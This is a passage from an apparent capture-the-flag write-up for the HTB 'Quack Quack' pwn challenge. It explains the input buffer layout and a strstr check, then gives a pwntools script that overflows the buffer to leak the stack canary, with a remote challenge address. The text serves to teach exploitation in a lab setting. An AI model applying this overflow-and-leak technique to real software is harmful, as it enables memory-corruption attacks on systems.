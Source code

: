 Total of our input is **0x66 bytes** or **102 bytes in decimal**. Our input is started from `$rbp-0x80` until `$rbp-0x20 - 2` (8 bytes every memory cells). Max input of 102 bytes is not only contain junk or a bunch of `'A'` characters, but including the `**"Quack Quack "**` string that have **12 bytes**. So, the total bytes of our input will be 102 - 12 = 90 bytes - 1 = **89 bytes**. What is 1 byte ? it just not to make the program exit.

What is `strstr` function does? It just to **find a substring (param2) in the target string (param1)**.

![QuackQuack-01](https://raw.githubusercontent.com/whyuhurtz/hackmd-blog/main/2025/_assets/htb-cyber-apocalypse_pwn1-01.png)

Okay, so our first input will be `"A"*89 + "Quack Quack "` . To get more clear of leaked information, I recommend you to see with pwntools.

#### 3. Exploit The Binary

Here's the first script to leak the stack canary.

```python=
#!/usr/bin/env python3

from pwn import *

exe = ELF('./quack_quack', checksec=0)
context.binary = exe
context.log_level = "DEBUG"

# Start the process.
LOCAL = True
if LOCAL:
    io = exe.process()
else:
    io = remote('94.237.54.232', 39055)

# Prepare the payload for the first input.
payload = b"" # -----------------------< Start payload.
payload += b"A" * 32 # ----------------< Fill the 32 bytes buffer.
payload += b"B" * (89 - 32) # ---------< Overflow until 89 bytes.
payload += b"Quack Quack " # ----------< Pass the strstr condition (12 more bytes).

# Send the payload in the first input.
io.recvuntil(b'> ', timeout=1)
io.sendline(payload)

# Maintain current session.
io.interactive()
```
